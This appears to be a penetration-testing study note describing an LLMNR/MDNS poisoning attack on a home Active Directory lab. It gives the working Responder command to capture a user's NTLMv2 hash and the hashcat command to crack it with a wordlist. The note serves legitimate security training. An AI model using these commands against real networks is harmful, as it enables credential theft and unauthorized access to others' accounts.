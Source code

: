 
# Capturing Hashes with [Responder](/cybersecurity/tools/exploitation/responder.md)
Responder is a tool which can be used to perform [LLMNR poisoning](/PEH/active-directory/initial-vectors/LLMNR-poisoning.md) attacks on an [active directory](/computers/windows/active-directory/active-directory.md) domain. [LLMNR](/networking/protocols/LLMNR.md) is not the only protocol which responder can do a poisoning attack on. It can also be used against [NBT-NS](/networking/protocols/NBT-NS.md) and [MDNS](/networking/protocols/MDNS.md).
## Example Usage
Against our AD lab, we're going to use Responder to perform LLMNR poisoning. This will allow us to capture the hash sent for authentication from the victim machine. Once we have the hash, we can crack it to get the password for that machine.

With our AD lab up and active, we're going to use the following command with responder to attack the [domain controller](/computers/windows/active-directory/domain-controller.md)
```bash
responder -I eth0 -dwP
```
### Flags used:
- `-I/ --interface`: tells responder which network interface we want to use.
- `-d/ --DHCP`: tells responder to *also respond* to [DHCP](/networking/protocols/DHCP.md) broadcast requests.
- `-w/ --wpad`: starts a rogue [WPAD](/computers/windows/active-directory/WPAD.md) server (which will respond to hostname resolution requests)
- `-P/ --ProxyAuth`: tells Responder to force NTLM authentication (even if the target network doesn't have WPAD on)
- **OTHER**: `-v/ --verbose`: Will add hashes which you've already captured to the output.
With these flags on, and your attack box on the *same network* as the domain and domain computers, the output should look like this:
```bash
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [ON]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [10.0.2.4]
    Responder IPv6             [fe80::a00:27ff:fed8:d39f]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-06P8C35WKXO]
    Responder Domain Name      [SZWS.LOCAL]
    Responder DCE-RPC Port     [45001]

[+] Listening for events... 
```
Note that all of the poisoner and server types should be on. If you've used Responder before, and changed these, then change them back. Responder is now *listening to your `eth0` interface* for incoming packets related to the listed  protocols.
## Forcing Some Traffic
In a real pentest, you might not see any traffic until staff in the client organization actually login to their AD accounts. So, to force some traffic in our lab simulation, we can login to one of our regular domain VMs.
### Traffic From Powering Up Host
![](PNPT-pics/active-directory-9.png)
![](/PNPT-pics/active-directory-9.png)
This is the traffic I was able to capture simply by powering on one of my AD user boxes (haven't logged in as that user yet). This traffic tells us that an MDNS (multicast DNS) request to resolve the hostname *`TRASHCAN.local`*. Our rogue server *responded w/ a poisoned answer* (which was sent to our user box which we powered up).
### Searching for IP in filesystem
Now, if we go to the user VM's File Explorer and search for the IP *of our attacking machine* we get the following hash in Responder:
![](PNPT-pics/active-directory-10.png)
![](/PNPT-pics/active-directory-10.png)
This screenshot shows the hash our rogue server received when Dan Dumpster searched for our attacking IP address while logged in to a domain computer. Now that we have the hash (which is an DES-made hash) we can easily crack it to get Dan Dumpster's password.
## Cracking the Hash
To crack this hash, we're going to use [Hashcat](/cybersecurity/tools/cracking/hashcat.md). Hashcat is a cracking program which *ideally* uses GPU processing to crack hashes in many different formats. To crack this hash, we're going to specify a value of 5600 to the `-m` flag. This tells hashcat that we're cracking an [NTLMv2](networking/protocols/NTLM.md) hash.

To give hashcat the hash, copy and paste the entire hash into a file called `hashes.txt`. The hash includes the username and password, so everything from `ddumpster::LANDFILL:...` to `...00000000` at the very end (in my example).

Once that's saved in a file, the command we use w/ hashcat is as follows:
```bash
hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt
```
We're also using the RockYou [wordlist](/cybersecurity/tools/scanning-enumeration/wordlists/seclists.md) which hashcat will use to generate hashes to try and match the one we're looking for. Even in a VM, this crack only takes hashcat about 16 seconds:
![](PNPT-pics/active-directory-11.png)
![](/PNPT-pics/active-directory-11.png)
Now we can log in as Dan Dumpster!

> [!Resources]
> - My other notes (linked throughout), all of which can be found [here](https://github.com/TrshPuppy/obsidian-notes)

